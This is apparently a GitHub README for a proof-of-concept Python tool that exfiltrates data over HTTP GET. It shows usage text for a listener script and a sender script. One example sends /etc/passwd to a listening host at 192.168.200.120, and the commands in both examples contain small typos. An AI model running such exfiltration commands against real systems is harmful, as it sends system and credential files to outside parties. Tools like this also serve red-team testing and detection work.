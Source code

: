 # My-HTTP-Exfiltrator
POC Python implementation Data Exfiltration using HTTP GET

This uses Python 3. To install the requirements:
```
pip install -r requirements.txt
````

## Setup Receiver
````
usage: http-get-server.py [-h] -w WRITE_FILE -l LISTENER_ADDRESS -p PORT

options:
  -h, --help            show this help message and exit
  -w WRITE_FILE, --write-file WRITE_FILE
                        File to write the HTTP Get.
  -l LISTENER_ADDRESS, --listener_address LISTENER_ADDRESS
                        Listener Address.
  -p PORT, --port PORT  Listener Port.
````

Example:
````
sudo http-get-server.py -l dump.txt -l 192.168.200.120 -p 80
````

## Setup Sender
````
sudo python http-get-transfer.py --help
usage: http-get-transfer.py [-h] -f READ_FILE -t TARGET -p PORT

options:
  -h, --help            show this help message and exit
  -f READ_FILE, --read-file READ_FILE
                        File to send by HTTP Get.
  -t TARGET, --target-address TARGET
                        Destination Address.
  -p PORT, --target-port PORT
                        Destination Port.

````

Example:
````
sudo python http-get-transfer.p -f /etc/passwd -t 192.168.200.120 -p 80
````